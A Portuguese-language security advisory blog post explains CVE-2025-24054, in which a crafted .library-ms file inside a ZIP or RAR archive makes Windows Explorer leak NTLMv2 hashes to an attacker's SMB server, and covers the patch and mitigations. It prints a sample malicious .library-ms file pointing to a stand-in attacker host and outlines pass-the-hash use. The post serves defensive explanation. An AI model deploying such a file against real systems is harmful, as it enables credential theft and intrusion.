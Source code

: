 ```yaml
---
title: "Alerta de Segurança: Vazamento de Hash NTLM (CVE-2025-24054) ao Extrair Arquivos ZIP/RAR"
date: 2025-05-31T15:00:00-03:00
description: "Entenda a vulnerabilidade CVE-2025-24054 que permite o vazamento de hashes NTLMv2 através de arquivos .library-ms maliciosos em arquivos ZIP ou RAR e como a Microsoft a corrigiu."
keywords: ["CVE-2025-24054", "NTLM Hash Leak", "Windows Explorer", "Vulnerabilidade", "Segurança Windows", "ZIP", "RAR", ".library-ms", "Patch Tuesday"]
author: "Hugo Robot"
images:
  - images/SemTitulo-1.png
  - images/SemTitulo-2.png
draft: false
tags: ["CVE", "Segurança Windows", "Vulnerabilidade", "NTLM", "Microsoft"]
categories: ["Segurança Cibernética", "Alertas"]
---
```


Recentemente, uma vulnerabilidade interessante (originalmente referenciada como CVE-2025-24071, agora atualizada para **CVE-2025-24054**) foi detalhada, expondo como hashes NTLMv2 de usuários do Windows podem ser capturados por invasores através de um método engenhoso envolvendo arquivos compactados ZIP ou RAR.

Vamos entender como essa falha funciona e o que foi feito a respeito.

## O Que é a Vulnerabilidade CVE-2025-24054?

A falha reside na maneira como o **Windows Explorer** lida com arquivos de Biblioteca do Windows (`.library-ms`) quando eles são extraídos de um arquivo compactado (como `.zip` ou `.rar`).

Um invasor pode criar um arquivo `.library-ms` malicioso que contém um caminho apontando para um servidor SMB (Server Message Block) sob seu controle. Quando um usuário desavisado baixa um arquivo ZIP/RAR contendo este arquivo `.library-ms` e o extrai, o Windows Explorer tenta automaticamente processar e indexar o conteúdo da "biblioteca".

Ao encontrar o caminho SMB malicioso dentro do arquivo `.library-ms`, o Windows Explorer tenta se conectar a esse servidor. Durante essa tentativa de conexão, ocorre um handshake de autenticação NTLM (NT LAN Manager), e o **hash NTLMv2** do usuário é enviado para o servidor SMB do invasor.

## Impacto do Vazamento de Hash NTLMv2

Com o hash NTLMv2 da vítima em mãos, um invasor pode:

- **Tentar ataques de "Pass-the-Hash"**: Em ambientes de rede corporativa, esses hashes podem ser usados para se autenticar em outros sistemas como se fosse o usuário legítimo, sem a necessidade de conhecer a senha original.
- **Tentar Quebra de Senha Offline**: O hash NTLMv2 pode ser submetido a ferramentas de cracking para tentar descobrir a senha de texto puro do usuário. A força da senha e a capacidade computacional do invasor influenciam o sucesso dessa tentativa.

## Sistemas Afetados

A vulnerabilidade afeta o **Windows Explorer** em versões do Windows que processam automaticamente arquivos `.library-ms`.

## Correção e Mitigação

A boa notícia é que a **Microsoft já corrigiu esta vulnerabilidade**. A correção foi disponibilizada no "Patch Tuesday" de Março. É crucial que os usuários do Windows mantenham seus sistemas atualizados com os últimos patches de segurança da Microsoft para se protegerem contra esta e outras ameaças.

Portanto, a principal recomendação é:

- **Aplique todas as atualizações de segurança do Windows o mais rápido possível.**

Manter-se informado sobre essas vulnerabilidades e aplicar as correções diligentemente são passos fundamentais para a segurança digital.

# Como o Ataque Funciona: O Apontamento SMB Malicioso

1. **Criação do Arquivo Malicioso**: Um invasor cria um arquivo `library-ms` especialmente modificado. Dentro deste arquivo XML, ele especifica um caminho para um local de rede que aponta para um servidor SMB sob seu controle.

   - **O que é SMB (Server Message Block)?** De forma rápida, SMB é um protocolo de rede usado principalmente pelo Windows para compartilhamento de arquivos, impressoras e outros recursos em uma rede.

2. **Exemplo de Conteúdo Malicioso no `.library-ms`**:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
    <name>Fotos Inocentes</name>
    <searchConnectorDescriptionList>
        <searchConnectorDescription>
            <isDefaultSaveLocation>true</isDefaultSaveLocation>
            <simpleLocation>
                <url>file://///servidor-do-atacante.com/recurso_malicioso</url>
                <!-- Outra variação poderia ser: <url>\servidor-do-atacante.com
ecurso_malicioso</url> -->
            </simpleLocation>
        </searchConnectorDescription>
    </searchConnectorDescriptionList>
</libraryDescription>
```

A parte crucial é `<url>file://///servidor-do-atacante.com/recurso_malicioso</url>`, que instrui o Explorer a tentar acessar um compartilhamento SMB no servidor do atacante.

3. **Entrega e Extração**: O invasor comprime este arquivo `.library-ms` (e talvez outros arquivos isca) em um arquivo `.zip` ou `.rar` e o envia para a vítima.

4. **A Mágica (Ruim) Acontece**: Quando o usuário desavisado baixa e extrai o conteúdo do arquivo ZIP/RAR, o Windows Explorer tenta se conectar automaticamente ao caminho SMB especificado.

5. **Vazamento do Hash**: Durante essa tentativa de conexão automática ao servidor SMB do atacante, o Windows envia as credenciais do usuário na forma de um handshake de autenticação NTLM. O servidor do atacante captura o **hash NTLMv2** do usuário.

**Usuário Fictício**: `MEUDOMINIO\UsuarioAlvo`  
**Hash NTLMv2 Capturado (Exemplo Fictício)**:  
`UsuarioAlvo::MEUDOMINIO:1122334455667788:AABBCCDDEEFF00112233445566778899:0101000000000000009a8b7c6d5e4f3a0000000002000000...`

## Ataques Possíveis com o Hash

- **Quebra de Senha Offline**: O hash NTLMv2 pode ser submetido a ferramentas como Hashcat ou John the Ripper com wordlists para tentar descobrir a senha real.
- **Ataques de "Pass-the-Hash" (PtH)**: O invasor usa o hash diretamente para se autenticar.

### Exemplo Conceitual de PtH

1. O atacante capturou o hash NTLMv2 de `MEUDOMINIO\UsuarioAlvo`.
2. Esse usuário também é administrador de um servidor chamado "SERVIDOR_ALVO".
3. O atacante usa o hash com ferramentas como PsExec ou Impacket para acessar esse servidor.
4. Se o servidor aceitar NTLM, o atacante obtém acesso como administrador.

## Recomendações

1. **Mantenha o Windows Atualizado**
2. **Cuidado com arquivos ZIP/RAR de fontes desconhecidas**
3. **Ambientes corporativos**:
   - Desative NTLM se possível, use Kerberos
   - Restrinja conexões SMB externas
   - Monitore tentativas de autenticação NTLM suspeitas

## Conclusão

A CVE-2025-24054 mostra como algo simples como extrair um arquivo pode expor credenciais sensíveis. A correção já está disponível, mas a compreensão do vetor de ataque é essencial para defesa preventiva.

---

*Ficou curioso para ver como um ataque de captura de hash NTLM funciona na prática?*

Não perca nosso próximo post: **"Explorando na Prática: Capturando Hashes NTLM com Kali Linux e VMs"**

---

<!-- Imagem no final da página -->

![Imagem no final da página](/images/SemTitulo-2.png)

<!-- Versão alternativa com HTML -->
<img src="/images/SemTitulo-2.png" alt="Imagem final da página" style="max-width: 80%; height: auto; display: block; margin: 0 auto;" />
